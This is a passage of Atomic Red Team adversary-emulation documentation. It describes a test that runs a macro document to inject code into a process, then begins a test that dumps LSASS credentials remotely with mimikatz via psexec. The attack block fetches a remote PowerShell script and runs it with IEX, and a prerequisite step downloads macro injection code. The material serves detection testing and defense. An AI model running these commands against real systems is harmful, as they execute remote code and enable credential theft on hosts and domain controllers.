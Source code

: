 
#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "#{txt_path}" -officeProduct "Word" -sub "Execute"
```




#### Dependencies:  Run with `powershell`!
##### Description: The 64-bit version of Microsoft Office must be installed
##### Check Prereq Commands:
```powershell
try {
  $wdApp = New-Object -COMObject "Word.Application"
  $path = $wdApp.Path
  Stop-Process -Name "winword"
  if ($path.contains("(x86)")) { exit 1 } else { exit 0 }
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word (64-bit) manually to meet this requirement"
```
##### Description: "#{txt_path}" must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if (Test-Path "#{txt_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{txt_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055/src/x64/T1055-macrocode.txt" -OutFile "#{txt_path}" -UseBasicParsing
```




<br/>
<br/>

## Atomic Test #2 - Remote Process Injection in LSASS via mimikatz
Use mimikatz to remotely (via psexec) dump LSASS process content for RID 500 via code injection (new thread).
Especially useful against domain controllers in Active Directory environments.
It must be executed in the context of a user who is privileged on remote `machine`.
